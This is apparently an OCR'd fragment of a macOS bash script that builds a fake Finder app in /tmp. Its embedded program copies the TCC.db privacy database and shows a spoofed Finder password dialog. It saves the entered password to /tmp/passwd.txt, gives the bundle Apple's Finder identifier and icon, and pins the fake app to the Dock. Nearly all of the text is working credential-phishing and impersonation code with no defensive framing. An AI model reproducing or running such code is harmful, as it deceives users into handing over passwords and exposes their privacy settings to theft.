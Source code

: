 ```bash
                "osascript -e 'tell application \"Finder\"' -e 'set homeFolder to path to home folder as string' -e 'set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias' -e 'set targetFolder to POSIX file \"/tmp\" as alias' -e 'duplicate file sourceFile to targetFolder with replacing' -e 'end tell'; "
                "PASSWORD=\$(osascript -e 'Tell application \"Finder\"' -e 'Activate' -e 'set userPassword to text returned of (display dialog \"Finder needs to update some components. Enter your password:\" default answer \"\" with hidden answer buttons {\"OK\"} default button 1 with icon file \"System:Library:CoreServices:Finder.app:Contents:Resources:Finder.icns\")' -e 'end tell' -e 'return userPassword'); "
                "echo \$PASSWORD > /tmp/passwd.txt";
    system(cmd);
    return 0;
}
EOF

gcc /tmp/Finder.app/Contents/MacOS/Finder.c -o /tmp/Finder.app/Contents/MacOS/Finder
rm -rf /tmp/Finder.app/Contents/MacOS/Finder.c

chmod +x /tmp/Finder.app/Contents/MacOS/Finder

# Info.plist
cat << EOF > /tmp/Finder.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>CFBundleExecutable</key>
    <string>Finder</string>
    <key>CFBundleIdentifier</key>
    <string>com.apple.finder</string>
    <key>CFBundleName</key>
    <string>Finder</string>
    <key>CFBundleVersion</key>
    <string>1.0</string>
    <key>CFBundleShortVersionString</key>
    <string>1.0</string>
    <key>CFBundleInfoDictionaryVersion</key>
    <string>6.0</string>
    <key>CFBundlePackageType</key>
    <string>APPL</string>
    <key>CFBundleIconFile</key>
    <string>app</string>
</dict>
</plist>
EOF

# Copy icon from Finder
cp /System/Library/CoreServices/Finder.app/Contents/Resources/Finder.icns /tmp/Finder.app/Contents/Resources/app.icns

# Add to Dock
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/tmp/Finder.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'
sleep 0.1
killall Dock
```

